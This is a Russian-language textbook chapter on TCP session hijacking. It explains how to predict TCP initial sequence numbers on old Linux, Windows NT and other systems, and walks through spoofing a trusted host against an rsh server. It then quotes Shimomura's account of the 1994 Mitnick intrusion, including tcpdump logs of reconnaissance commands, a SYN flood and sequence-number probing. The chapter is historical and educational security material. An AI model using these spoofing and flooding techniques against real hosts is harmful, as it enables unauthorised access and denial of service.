



АТАКА НА INTERNET
Transmission Control Protocol (протокол TCP) является одним из базовых протоколов транспортного уровня сети Internet. Он позволяет исправлять ошибки, которые могут возникнуть в процессе передачи пакетов, устанавливая логическое соединение - виртуальный канал. По этому каналу передаются и принимаются пакеты с регистрацией их последовательности, осуществляется управление информационным потоком, организовывается повторная передача искаженных пакетов, а в конце сеанса канал разрывается. При этом протокол TCP является единственным базовым протоколом из семейства TCP/IP, имеющим дополнительную систему идентификации сообщений и соединения. Именно поэтому протоколы прикладного уровня FTP и TELNET, предоставляющие пользователям удаленный доступ на хосты Internet, реализованы на базе протокола TCP.
Для идентификации TCP-пакета в TCP-заголовке существуют два 32-разрядных идентификатора - Sequence Number (Номер последовательности) и Acknowledgment Number (Номер подтверждения), которые также играют роль счетчиков пакетов. Поле Control Bits (Контрольная сумма) размером 6 бит может содержать следующие командные биты (слева направо): URG - Urgent Pointer Field Significant (Значение поля безотлагательного указателя), АСК - Acknowledgment Field Significant (Значение поля подтверждения), PSH - Push Function, RST - Reset the Connection (Восстановить соединение), SYN - Synchronize Sequence Numbers (Синхронизировать числа последовательности), FIN - No More Data from Sender (Конец передачи данных от отправителя).
Рассмотрим схему создания TCP-соединения (рис. 4.13).

Рис. 4.13. Схема создания TCP-соединения
Предположим, что хосту А необходимо создать TCP-соединение с хостом В. Тогда А посылает на В следующее сообщение: SYN, ISSa.
Это означает, что в передаваемом А сообщении установлен бит SYN (Synchronize Sequence Number), а в поле Sequence Number установлено начальное 32-битное значение ISSa (Initial Sequence Number).
Хост В отвечает: SYN, АСК, ISSb, ACK(ISSa+l).
В ответ на полученный от А запрос В посылает сообщение, в котором установлены бит SYN и бит АСК; в поле Sequence Number хостом В задается свое начальное значение счетчика - ISSb; поле Acknowledgment Number содержит значение ISSa, полученное в первом пакете от хоста А и увеличенное на единицу.
Хост А, завершая рукопожатие (handshake), посылает: АСК, ISSa+l, ACK(ISSb+l).
В этом пакете установлен бит АСК; поле Sequence Number содержит значение ISSa+l; поле Acknowledgment Number содержит значение ISSb+l. Посылкой этого пакета на хост В заканчивается трехступенчатый handshake, и TCP-соединение между хостами А и В считается установленным.
Теперь хост А может посылать пакеты с данными на хост В по только что созданному виртуальному TCP-каналу; передается следующая информация: АСК, ISSa+l, ACK(ISSb+l); DATA.
Из рассмотренной схемы создания TCP-соединения видно, что единственными идентификаторами, помимо IP-адреса инициатора соединения, TCP-абонентов и TCP-соединения, являются два 32-битных параметра Sequence Number и Acknowledgment Number. Следовательно, для формирования ложного TCP-пакета атакующему необходимо знать текущие идентификаторы для данного соединения - ISSa и ISSb. Это означает, что кракеру достаточно, подобрав соответствующие текущие значения идентификаторов TCP-пакета для данного TCP-соединения (например, данное соединение может представлять собой FTP- или TELNET-подключение), послать пакет с любого хоста в сети Internet от имени одного из участников данного соединения (например, от имени клиента), указывая в заголовке IP-пакета его IP-адрес, и данный пакет будет воспринят как верный.
Итак, для осуществления описанной выше атаки необходимым и достаточным условием является знание двух текущих 32-битных параметров ISSa и ISSb, идентифицирующих TCP-соединение. Рассмотрим возможные способы их получения.
Если взломщик находится в одном сегменте с объектом атаки или через сегмент кракера проходит трафик такого хоста, то задача получения значений ISSa и ISSb является тривиальной и решается путем сетевого анализа. Следовательно, нельзя забывать что протокол TCP позволяет защитить соединение только в случае невозможности перехвата атакующим сообщений, передаваемых по данному соединению, то есть тогда, когда кракер находится в других сегментах относительно абонентов TCP-соединения. Поэтому наибольший интерес для нас представляют межсегментные атаки, когда атакующий и его цель находятся в разных сегментах Сети. В этом случае задача получения значений ISSa и ISSb не является тривиальной. Далее предлагается следующее решение обозначенной проблемы.
Предсказание начального значения идентификатора TCP-соединения
Рассмотрим математическое предсказание начального значения идентификатора TCP-соединения экстраполяцией его предыдущих значений.
Первый вопрос, который возникает в данном случае: как сетевая операционная система формирует начальное значение ISSa или так называемый ISN - Initial Sequence Number (Начальный номер последовательности)? Очевидно, что наилучшим с точки зрения безопасности решением будет генерация значения ISN по случайному закону с использованием программного (а лучше аппаратного) генератора псевдослучайных чисел с достаточно большим периодом, тогда каждое новое значение ISN не будет зависеть от его предыдущего, и, следовательно, у атакующего не будет даже теоретической возможности нахождения функционального закона получения ISN.
На практике, однако, оказывается, что подобные правила случайной генерации ISN как для составителей описания протокола TCP (RFC 793), так и для разработчиков сетевого ядра различных ОС далеко не очевидны. Об этом говорят следующие факты. В описании протокола TCP в RFC 793 рекомендуется увеличивать значение этого 32-битного счетчика на 1 каждые 4 микросекунды. В ранних Berkeley-совместимых ядрах ОС UNIX, например, значение этого счетчика увеличивалось на 128 каждую секунду и на 64 для каждого нового соединения. Анализ исходных текстов ядра ОС Linux 1.2.8 показал, что значение ISN вычисляется данной ОС в зависимости от текущего времени по следующему, отнюдь не случайному закону:
ISN = мкс + 1 000 000 с, (1)
где мкс - время в микросекундах;
с - текущее время в секундах; отсчет его идет от 1970 года.
В ОС Windows NT 4.0 значение ISN увеличивается на 10 примерно каждую миллисекунду, то есть для Windows NT справедлива следующая формула:
ISN = 10 * мс, (2)
где мс - текущее время в миллисекундах.
Однако больше всего нас удивила защищенная по классу В1 операционная система CX/LAN/SX, установленная на многопроцессорной мини-ЭВМ - полнофункциональном межсетевом экране CyberGuard. Эта наиболее защищенная из всех, что встречались авторам, сетевая ОС также имеет простой времязависимый алгоритм генерации начального значения идентификатора TCP-соединения. Как говорится, комментарии излишни. Мало того, что в единственном базовом "защищенном" протоколе Internet - протоколе TCP - применяется простейший способ идентификации соединения, который не может гарантировать надежную защиту от подмены одного из абонентов при нахождении атакующего в том же сегменте, так еще сами разработчики сетевых ОС разрушают и без того хрупкую безопасность этого протокола, используя простые времязависимые алгоритмы генерации ISN.
Итак, в том случае если в сетевой операционной системе используется времязависимый алгоритм генерации начального значения идентификатора TCP-соединения, то взломщик получаст принципиальную возможность определить с той или иной степенью точности вид функции, описывающей закон получения ISN. Исходя из практических исследований сетевых ОС, а также из общих теоретических соображений, можно предложить следующий обобщенный вид функции, описывающий времязависимый закон получения ISN, который постоянно увеличивается каждую секунду:
ISN = F (мкс, мс, с), (3)
где мкс - время в микросекундах (обычно минимальной единицей измерения машинного времени является микросекунда); циклически изменяется за одну секунду от 0 до 106-1;
мс - текущее время в миллисекундах; этот параметр циклически изменяется за секунду от 0 до 999;
с - текущее время в секундах.
На малом промежутке времени (меньше одной секунды) для удобства аппроксимации можно утверждать, что
ISN = F (мкс). (4)
Итак, мы будем считать, что значение ISN зависит только от времени в микросекундах. Данная функция в силу особенностей изменения своих аргументов в сетевых ОС обычно является или кусочнолинейной, или ступенчатой. Например, зависимость (1), описывающая закон получения ISN в ОС Linux, в случае приведения ее к виду (4) является кусочнолинейной, а функциональная зависимость (2), справедливая для Windows NT, - ступенчатой.
На данном этане мы вплотную подошли к проблеме определения вида функциональной зависимости ISN от времени (мкс) для конкретной сетевой ОС. Первый способ получения этой зависимости - анализ исходных текстов ядра операционной системы. Использование данного способа на практике обычно оказывается невозможным из-за отсутствия исходных текстов большинства ОС. Исключение составляют ОС Linux и FreeBSD, поставляемые с исходными текстами ядра.
В связи с этим предлагается другой метод получения закона изменения ISN во времени. Сетевая ОС рассматривается исследователем как "черный ящик", к которому применяется метод тестирования "запрос - ответ": на исследуемую ОС передается серия обычных запросов на создание TCP-соединения и принимается соответствующее количество ответов с текущими значениями ISN операционной системы в каждый момент времени. При этом замеряются временные интервалы в микросекундах между запросом и ответом на него и время, прошедшее между запросами. В результате у исследователя будет следующая таблица дискретных отсчетов ISN и соответствующих им моментов времени в мкс:
|
где ISNn - значение ISN, полученное за время tn от начала эксперимента (время начала эксперимента принимается за 0).
Аппроксимируя данную таблицу дискретных значений непрерывной функции одним из известных математических методов (например, методом наименьших квадратов), получим непрерывную функцию, приближенно описывающую изменение ISN на данном временном промежутке (от 0 до t), при этом чем выше точность исходных данных, тем точнее приближение:
ISN(t) ~ F(t) (5)
С помощью этой формулы мы можем, зная функцию изменения ISN от времени, экстраполировать следующее значение ISN по предыдущему. Теперь атакующий, получив в ответ на TCP-запрос текущее значение ISN для ОС в данный момент времени, способен математически предсказать следующее возможное значение ISN через некоторый промежуток времени.
Хотелось бы обратить внимание на следующий важный момент: чем ближе в сети находятся исследователь и тестируемая ОС, тем выше точность получения аппроксимирующей функции. В противном случае время, за которое запрос дойдет до системы и будет выработан ISN, может существенно отличаться от времени передачи ответа из-за задержек в канале связи; при этом погрешность исходных данных будет увеличиваться, а точность экстраполяции падать.
Заметим, что атакующему вовсе не обязательно проводить подобные исследования с интересующим его удаленным хостом. Достаточно узнать тип операционной системы на объекте атаки и получить в свое распоряжение подобную систему для определения формулы изменения ISN.
Применение описанной выше методики получения формулы ISN(t) на примере ОС Linux 1.2.8 и Windows NT 4.0 в случае нахождения в одном сегменте с данными ОС позволило определить это 32-битное значение (от 0 до 232-1) по его предыдущему значению для ОС Windows NT с точностью до 10, а для ОС Linux 1.2.8 - с точностью примерно до 100. В табл. 4.1 приведены снятые в процессе эксперимента с ОС Linux 1.2.8 значения изменения ISN за соответствующие промежутки времени (а не абсолютные значения).
Таблица 4.14 Изменение значений ISN для OC LINUX 1.2.8
|
График на рис. 4.14, построенный на основе данных из этой таблицы и справедливый для ОС Linux 1.2.8, наглядно показывает линейный характер изменения значения начального идентификатора TCP-соединения ISN на данном временном промежутке (на самом деле зависимость изменения ISN для ОС Linux 1.2.8 носит кусочнолинейный характер).

Рис. 4.14. Зависимость изменения ISN от времени для Linux 1.2.8
Как правило, определив вид функций для вычисления ISN в операционных системах на сервере и предполагаемом клиенте, атакующий начинает следить за ОС сервера, ожидая подключения предполагаемого клиента. В тот момент, когда подключение произошло, кракер может подсчитать возможный диапазон значений ISN, которыми обменялись при создании TCP-канала данные хосты. Так как атакующий может вычислить значения ISN только приближенно, то ему не избежать подбора. Однако без помощи описанного выше метода для перебора всех возможных значений ISSa и ISSb понадобилось бы послать 264 пакета, что нереально. В противном случае, например, если удалось вычислить значения ISN на операционных системах с точностью до 100, для подмены одного из абонентов TCP-соединения взломщику достаточно послать всего 10 000 пакетов. Вообще говоря, осуществить атаку, связанную с подменой TCP-абонентов, путем предсказания ISSa и ISSb без перехвата трафика практически невозможно (за исключением случая, когда оба абонента используют ОС Windows NT). Поэтому более реальным выглядит воздействие, связанное с подменой только одного из абонентов TCP-соединения и предсказанием одного значения ISSa.
Рассмотрим ставшую уже классической подобную удаленную атаку на r-службу. Осуществление такого взлома связано с описанными выше особенностями идентификации TCP-пакетов.
Недостатки идентификации абонентов TCP-соединения
В ОС UNIX существует понятие доверенный хост. Доверенным по отношению к какому-либо хосту называется сетевой компьютер, доступ на который пользователю с данного хоста разрешен без его аутентификации и идентификации с помощью r-службы (r - сокращение от англ. "remote" - удаленный). Обычно в ОС UNIX существует файл rhosts, в котором находится список имен и IP-адресов доверенных хостов. Для получения удаленного доступа к ним пользователю необходимо применить программы, входящие в r-службу (например, rlogin, rsh и т. д.). При использовании r-программ с доверенного хоста для получения удаленного доступа не требуется проходить стандартную процедуру идентификации и аутентификации, заключающуюся в проверке логического имени и пароля пользователя. Единственной аутентифицирующей пользователя информацией для r-службы является IP-адрес хоста, с которого осуществляется удаленный r-доступ (см. в главе 8 раздел "Программно-аппаратные методы защиты от удаленных атак в сети Internet"). Отметим, что все программы из r-службы реализованы на базе протокола TCP. Одной из программ, входящих в r-службу, является rsh (remote shell), с помощью которой возможно осуществление данной атаки: эта программа позволяет отдавать команды shell удаленному хосту, причем, чтобы отдать команду, достаточно послать запрос, а ответ на него получать необязательно. При атаке на r-службу вся сложность для кракера заключается в том, что ему необходимо послать пакет от имени доверенного хоста, то есть в качестве адреса отправителя нужно указать IP-адрес такого хоста. Следовательно, ответный пакет будет отправлен именно на доверенный хост, а не на хост атакующего.
Схема удаленной атаки на rsh-сервер (рис. 4.15) была впервые описана небезызвестным Р. Т. Моррисом-старшим [13].

Рис. 4.15. Подмена одного из участников TCP-соединения при атаке на rsh-сервер
Пусть хост А доверяет хосту В. Хост Х-Hacker - это станция атакующего.
Вначале атакующий Х-Hacker открывает настоящее TCP-соединение с хостом В на любой TCP-порт (mail, echo и т. д.). В результате X-Hacker получает текущее на данный момент времени значение ISNb. Затем X-Hacker от имени хоста А посылает на хост В TCP-запрос на открытие соединения: SYN, ISSx.
Получив этот запрос, В анализирует IP-адрес отправителя и решает, что пакет пришел с хоста А. Следовательно, в ответ хост В посылает на А новое значение ISNb': SYN, АСК, ISNb', ACK(ISSx+1).
X-Hacker никогда не получит это сообщение от В, но, используя предыдущее значение ISNb и схему для получения ISNb', при помощи математического предсказания может послать пакет на В: АСК, ISSx+l, ACK(ISNb'+l).
Для того чтобы послать этот пакет, вероятно, потребуется перебрать некоторое количество возможных значений ACK(ISSb'+l). Подбирать ISSx+1 не нужно, так как этот параметр TCP-соединения был послан с хоста X-Hacker на объект В в первом пакете.
В случае осуществления данной атаки перед взломщиком возникает следующая проблема. Так как X-Hacker посылает первый пакет на В от имени А, то хост В ответит на А пакетом 2. Но поскольку хост А нс посылал на хост В никакого запроса, то, получив такой ответ, перешлет на В пакет с битом RST - закрыть соединение. Кракера это, естественно, не устраивает, поэтому ему придется на некоторое время вывести из строя хост А (см. раздел "Нарушение работоспособности хоста в сети Internet при использовании направленного шторма ложных TCP-запросов на создание соединения либо при переполнении очереди запросов").
В итоге rsh-сервер на хосте В считает, что к нему подключился пользователь с доверенного объекта А, тогда как на самом деле это атакующий с хоста X-Hacker. Н хотя взломщик никогда нс получит пакеты с хоста В, он сможет выполнять на нем r-команды.
В заключение авторам хотелось бы привести пример реального инцидента, произошедшего в компьютерном центре Сан-Диего 12 декабря 1994 года, когда взломщик (небезызвестный Кевин Митник) использовал такую схему удаленной атаки. Этот инцидент представляет, как нам кажется, исторический интерес и показывает, что опасности, описанные в нашей книге, являются отнюдь не мнимыми угрозами из Internet, а той реальностью, над которой большинство пользователей просто не задумывается, но которая в любой момент может пожаловать к ним в гости.
Все приведенные ниже сведения взяты из письма эксперта по информационной безопасности Цутому Шимомуры (Tsutomu Shimomura) в различные эхо-конференции.
Далее приводится перевод его оригинального письма с некоторыми сокращениями и нашими комментариями:
Привет с озера Тахо.
В статье Джона Маркоффа от 23.01.95 в гадете "Нью-Йорк Таймс" и в
рекомендациях CERT CA-95:01, кажется, было достаточно
много путаницы насчет того, что такое на самом
деле атака с использованием подмены IP-адреса с
целью подмены одного из абонентов соединения.
"From: tsutomu@ariel.sdsc.edu (Tsutomu Shimomura)
Newsgroups: comp.security.misc,comp.protocols.tcp-ip,alt.security
Subject: Technical details of the attack described by Markoff in NYT
Date: 25 Jan 1995 04:36:37 -0800
Organization: San Diego Supercomputer Center
Message-ID: <3g5gkl$5j1@ariel.sdsc.edu>
NNTP-Posting-Host: ariel.sdsc.edu
Keywords: IP spoofing, security, session hijacking
Greetings from Lake Tahoe.
|
Имеется в виду статья в New York Times под названием "Data Network Is Found Open To New Threat". Следующая статья была опубликована 28 января 1995 года под названием "Taking a Computer Crime to Heart". Заключительная статья "A Most-Wanted Cyberthief Is Caught In His Own Web" появилась 16 февраля того же года. Time Magazine напечатал две статьи под следующими громкими заголовками: "KEVIN MITNICK'S DIGITAL OBSESSION" и "CRACKS IN THE NET: America's most wanted hacker has been arrested, but the Internet is more vulnerable than ever".
Шумиха, поднятая американской прессой по этому поводу, была столь велика, что нам остается только вспомнить крылатую фразу Шекспира: "Много шума из ничего". Хотя это можно объяснить тем, что, во-первых, в США благодаря стараниям прессы сложился образ злобного суперхакера, этакого "монстра" киберпространства - Кевина Митника; во-вторых, это был один из редких случаев обнародования информации о реальной удаленной атаке; в-третьих, ее осуществление удалось проследить и запротоколировать, что обычно очень непросто; и, в-четвертых, с нашей точки зрения, это, пожалуй, единственная известная, и при этом довольно красивая, удаленная атака на TCP-соединение (истории о "тупых" атаках с перехватом пароля или попытками его подбора читателю уже, видимо, надоели) |
Здесь приведены некоторые технические подробности из моей презентации 11.01.95 в CMAD 3 в Сономе, Калифорния. Надеюсь, это может снять всяческое непонимание природы этих атак.
Для атаки использовалось два различных механизма. Подмена IP-адреса отправителя и математическое предсказание начального значения идентификатора TCP-соединения позволили получить доступ к бездисковой рабочей станции, которая использовалась как Х-терминал.
В письмо включен log-файл, полученный с помощью программы tcpdump, с записью всех пакетов, посланных атакующим. Для краткости этот файл приводится с сокращением некоторых несущественных подробностей.
Моя конфигурация:
server = SPARC с ОС Solans 1, обслуживающий x-terminal;
x-terminal = бездисковая рабочая станция SPARC с ОС Solaris 1;
target = основная цель атаки.
Атака началась 25 декабря 1994 года в 14:09:32. Первые попытки зондирования осуществлялись с хоста toad.com (информация взята из log-файла).
14:09:32 toad.com# finger -l @target 14:10:21 toad.com# finger -l @server 14:10:50 toad.com# finger -l root@server 14:11:07 toad.com# finger -l @x-terminal 14:11:38 toad.com# showmount -e x-terminal 14:11:49 toad.com# rpcinfo -p x-terminal 14:12:05 toad.com# finger -l root@x-terminal
Зондирование системы позволило определить, есть ли у нее другие доверенные системы для дальнейшей атаки. То, что атакующий смог запустить программы showmount и fpcinfo, означало, что он является пользователем root на хосте toad.com.
Через шесть минут мы видим шторм TCP-запросов на создание соединения с адреса 130.92.6.97 на 513-й порт (login) хоста server. При этом основная цель атакующего - этими однонаправленными TCP-запросами переполнить очередь на 513-ом порту сервера так, чтобы он не смог отвечать на новые запросы на создание соединения. Особенно важно, чтобы сервер не смог сгенерировать TCP-пакет с битом RST в ответ на неожиданно пришедший TCP-пакет с битами SYN и ACK.
Так как порт 513 является привилегированным портом, то теперь IP-адрес хоста server.login может быть свободно использован атакующим для атаки с использованием подмены адреса на r-службы UNIX-систем (rsh, rlogin).
| Шимомура здесь и далее после имени или IР-адреса хоста через точку указывает порт назначения. Поэтому запись server. login означает хост server и порт login (513). Соответственно, например, первая из распечатки log-файла запись 130.92.6.97.600 означает, что пакет передается с IP-адреса 130.92.6.97 с 600-го порта. |
14:18:22.516699 130.92.6.97.600 >
server.login: S 1382726960:1382726960(0) win 4096
14:18:22.566069 130.92.6.97.601 >
server.login: S 1382726961:1382726961(0) win 4096
14:18:22.744477 130.92.6.97.602 >
server.login: S 1382726962:1382726962(0) win 4096
14:18:22.830111 130.92.6.97.603 >
server.login: S 1382726963:1382726963(0) win 4096
14:18:22.886128 130.92.6.97.604 >
server.login: S 1382726964:1382726964(0) win 4096
14:18:22.943514 130.92.6.97.605 >
server.login: S 1382726965:1382726965(0) win 4096
14:18:23.002715 130.92.6.97.606 >
server.login: S 1382726966:1382726966(0) win 4096
14:18:23.103275 130.92.6.97.607 >
server.login: S 1382726967:1382726967(0) win 4096
14:18:23.162781 130.92.6.97.608 >
server.login: S 1382726968:1382726968(0) win 4096
14:18:23.225384 130.92.6.97.609 >
server.login: S 1382726969:1382726969(0) win 4096
14:18:23.282625 130.92.6.97.610 >
server.login: S 1382726970:1382726970(0) win 4096
14:18:23.342657 130.92.6.97.611 >
server.login: S 1382726971:1382726971(0) win 4096
14:18:23.403083 130.92.6.97.612 >
server.login: S 1382726972:1382726972(0) win 4096
14:18:23.903700 130.92.6.97.613 >
server.login: S 1382726973:1382726973(0) win 4096
14:18:24.003252 130.92.6.97.614 >
server.login: S 1382726974:1382726974(0) win 4096
14:18:24.084827 130.92.6.97.615 >
server.login: S 1382726975:1382726975(0) win 4096
14:18:24.142774 130.92.6.97.616 >
server.login: S 1382726976:1382726976(0) win 4096
14:18:24.203195 130.92.6.97.617 >
server.login: S 1382726977:1382726977(0) win 4096
14:18:24.294773 130.92.6.97.618 >
server.login: S 1382726978:1382726978(0) win 4096
14:18:24.382841 130.92.6.97.619 >
server.login: S 1382726979:1382726979(0) win 4096
14:18:24.443309 130.92.6.97.620 >
server.login: S 1382726980:1382726980(0) win 4096
14:18:24.643249 130.92.6.97.621 >
server.login: S 1382726981:1382726981(0) win 4096
14:18:24.906546 130.92.6.97.622 >
server.login: S 1382726982:1382726982(0) win 4096
14:18:24.963768 130.92.6.97.623 >
server.login: S 1382726983:1382726983(0) win 4096
14:18:25.022853 130.92.6.97.624 >
server.login: S 1382726984:1382726984(0) win 4096
14:18:25.153536 130.92.6.97.625 >
server.login: S 1382726985:1382726985(0) win 4096
14:18:25.400869 130.92.6.97.626 >
server.login: S 1382726986:1382726986(0) win 4096
14:18:25.483127 130.92.6.97.627 >
server.login: S 1382726987:1382726987(0) win 4096
14:18:25.599582 130.92.6.97.628 >
server.login: S 1382726988:1382726988(0) win 4096
14:18:25.653131 130.92.6.97.629 >
server.login: S 1382726989:1382726989(0) win 4096
Хост server на первые восемь запросов генерирует соответственно восемь ответов, после чего очередь переполняется.
Хост server периодически будет посылать эти ответы, но так и не дождется на них никакой реакции.
| Кстати, наши эксперименты, описанные в разделе "Направленный шторм ложных TCP-запросов на создание соединения", это подтвердили. |
Далее мы видим 20 попыток создания соединения с хоста apollo.it.luc.edu на x-terminal.shell. Основная цель этих запросов - определить закон изменения начального значения идентификатора TCP-соединения на хосте x-terminal. Так как значение ISN увеличивается на единицу с каждым вновь посылаемым запросом, следовательно, эти запросы генерирует не ядро сетевой ОС. При этом очередь запросов на хосте x-terminal не переполняется, так как атакующий после каждого запроса передает пакет с битом RST, что означает "закрыть соединение".
14:18:25.906002 apollo.it.luc.edu.1000 >
x-terminal.shell: S 1382726990:1382726990(0) win 4096
14:18:26.094731 x-terminal.shell >
apollo.it.luc.edu.1000: S 2021824000:2021824000(0)
ack 1382726991 win 4096
14:18:26.172394 apollo.it.luc.edu.1000 >
x-terminal.shell: R 1382726991:1382726991(0) win 0
14:18:26.507560 apollo.it.luc.edu.999 >
x-terminal.shell: S 1382726991:1382726991(0) win 4096
14:18:26.694691 x-terminal.shell >
apollo.it.luc.edu.999: S 2021952000:2021952000(0)
ack 1382726992 win 4096
14:18:26.775037 apollo.it.luc.edu.999 >
x-terminal.shell: R 1382726992:1382726992(0) win 0
14:18:26.775395 apollo.it.luc.edu.999 >
x-terminal.shell: R 1382726992:1382726992(0) win 0
14:18:27.014050 apollo.it.luc.edu.998 >
x-terminal.shell: S 1382726992:1382726992(0) win 4096
14:18:27.174846 x-terminal.shell >
apollo.it.luc.edu.998: S 2022080000:2022080000(0)
ack 1382726993 win 4096
14:18:27.251840 apollo.it.luc.edu.998 >
x-terminal.shell: R 1382726993:1382726993(0) win 0
14:18:27.544069 apollo.it.luc.edu.997 >
x-terminal.shell: S 1382726993:1382726993(0) win 4096
14:18:27.714932 x-terminal.shell >
apollo.it.luc.edu.997: S 2022208000:2022208000(0)
ack 1382726994 win 4096
14:18:27.794456 apollo.it.luc.edu.997 >
x-terminal.shell: R 1382726994:1382726994(0) win 0
14:18:28.054114 apollo.it.luc.edu.996 >
x-terminal.shell: S 1382726994:1382726994(0) win 4096
14:18:28.224935 x-terminal.shell >
apollo.it.luc.edu.996: S 2022336000:2022336000(0)
ack 1382726995 win 4096
14:18:28.305578 apollo.it.luc.edu.996 >
x-terminal.shell: R 1382726995:1382726995(0) win 0
14:18:28.564333 apollo.it.luc.edu.995 >
x-terminal.shell: S 1382726995:1382726995(0) win 4096
14:18:28.734953 x-terminal.shell >
apollo.it.luc.edu.995: S 2022464000:2022464000(0)
ack 1382726996 win 4096
14:18:28.811591 apollo.it.luc.edu.995 >
x-terminal.shell: R 1382726996:1382726996(0) win 0
14:18:29.074990 apollo.it.luc.edu.994 >
x-terminal.shell: S 1382726996:1382726996(0) win 4096
14:18:29.274572 x-terminal.shell >
apollo.it.luc.edu.994: S 2022592000:2022592000(0)
ack 1382726997 win 4096
14:18:29.354139 apollo.it.luc.edu.994 >
x-terminal.shell: R 1382726997:1382726997(0) win 0
14:18:29.354616 apollo.it.luc.edu.994 >
x-terminal.shell: R 1382726997:1382726997(0) win 0
14:18:29.584705 apollo.it.luc.edu.993 >
x-terminal.shell: S 1382726997:1382726997(0) win 4096
14:18:29.755054 x-terminal.shell >
apollo.it.luc.edu.993: S 2022720000:2022720000(0)
ack 1382726998 win 4096
14:18:29.840372 apollo.it.luc.edu.993 >
x-terminal.shell: R 1382726998:1382726998(0) win 0
14:18:30.094299 apollo.it.luc.edu.992 >
x-terminal.shell: S 1382726998:1382726998(0) win 4096
14:18:30.265684 x-terminal.shell >
apollo.it.luc.edu.992: S 2022848000:2022848000(0)
ack 1382726999 win 4096
14:18:30.342506 apollo.it.luc.edu.992 >
x-terminal.shell: R 1382726999:1382726999(0) win 0
14:18:30.604547 apollo.it.luc.edu.991 >
x-terminal.shell: S 1382726999:1382726999(0) win 4096
14:18:30.775232 x-terminal.shell >
apollo.it.luc.edu.991: S 2022976000:2022976000(0)
ack 1382727000 win 4096
14:18:30.852084 apollo.it.luc.edu.991 >
x-terminal.shell: R 1382727000:1382727000(0) win 0
14:18:31.115036 apollo.it.luc.edu.990 >
x-terminal.shell: S 1382727000:1382727000(0) win 4096
14:18:31.284694 x-terminal.shell >
apollo.it.luc.edu.990: S 2023104000:2023104000(0)
ack 1382727001 win 4096
14:18:31.361684 apollo.it.luc.edu.990 >
x-terminal.shell: R 1382727001:1382727001(0) win 0
14:18:31.627817 apollo.it.luc.edu.989 >
x-terminal.shell: S 1382727001:1382727001(0) win 4096
14:18:31.795260 x-terminal.shell >
apollo.it.luc.edu.989: S 2023232000:2023232000(0)
ack 1382727002 win 4096
14:18:31.873056 apollo.it.luc.edu.989 >
x-terminal.shell: R 1382727002:1382727002(0) win 0
14:18:32.164597 apollo.it.luc.edu.988 >
x-terminal.shell: S 1382727002:1382727002(0) win 4096
14:18:32.335373 x-terminal.shell >
apollo.it.luc.edu.988: S 2023360000:2023360000(0)
ack 1382727003 win 4096
14:18:32.413041 apollo.it.luc.edu.988 >
x-terminal.shell: R 1382727003:1382727003(0) win 0
14:18:32.674779 apollo.it.luc.edu.987 >
x-terminal.shell: S 1382727003:1382727003(0) win 4096
14:18:32.845373 x-terminal.shell >
apollo.it.luc.edu.987: S 2023488000:2023488000(0)
ack 1382727004 win 4096
14:18:32.922158 apollo.it.luc.edu.987 >
x-terminal.shell: R 1382727004:1382727004(0) win 0
14:18:33.184839 apollo.it.luc.edu.986 >
x-terminal.shell: S 1382727004:1382727004(0) win 4096
14:18:33.355505 x-terminal.shell >
apollo.it.luc.edu.986: S 2023616000:2023616000(0)
ack 1382727005 win 4096
14:18:33.435221 apollo.it.luc.edu.986 >
x-terminal.shell: R 1382727005:1382727005(0) win 0
14:18:33.695170 apollo.it.luc.edu.985 >
x-terminal.shell: S 1382727005:1382727005(0) win 4096
14:18:33.985966 x-terminal.shell >
apollo.it.luc.edu.985: S 2023744000:2023744000(0)
ack 1382727006 win 4096
14:18:34.062407 apollo.it.luc.edu.985 >
x-terminal.shell: R 1382727006:1382727006(0) win 0
14:18:34.204953 apollo.it.luc.edu.984 >
x-terminal.shell: S 1382727006:1382727006(0) win 4096
14:18:34.375641 x-terminal.shell >
apollo.it.luc.edu.984: S 2023872000:2023872000(0)
ack 1382727007 win 4096
14:18:34.452830 apollo.it.luc.edu.984 >
x-terminal.shell: R 1382727007:1382727007(0) win 0
14:18:34.714996 apollo.it.luc.edu.983 >
x-terminal.shell: S 1382727007:1382727007(0) win 4096
14:18:34.885071 x-terminal.shell >
apollo.it.luc.edu.983: S 2024000000:2024000000(0)
ack 1382727008 win 4096
14:18:34.962030 apollo.it.luc.edu.983 >
x-terminal.shell: R 1382727008:1382727008(0) win 0
14:18:35.225869 apollo.it.luc.edu.982 >
x-terminal.shell: S 1382727008:1382727008(0) win 4096
14:18:35.395723 x-terminal.shell >
apollo.it.luc.edu.982: S 2024128000:2024128000(0)
ack 1382727009 win 4096
14:18:35.472150 apollo.it.luc.edu.982 >
x-terminal.shell: R 1382727009:1382727009(0) win 0
14:18:35.735077 apollo.it.luc.edu.981 >
x-terminal.shell: S 1382727009:1382727009(0) win 4096
14:18:35.905684 x-terminal.shell >
apollo.it.luc.edu.981: S 2024256000:2024256000(0)
ack 1382727010 win 4096
14:18:35.983078 apollo.it.luc.edu.981 >
x-terminal.shell: R 1382727010:1382727010(0) win 0
Видно, что каждый последующий ответный пакет SYN-ACK, посылаемый с хоста x-terminal, имеет начальное значение идентификатора TCP-соединения на 128 000 больше, чем у предыдущего.
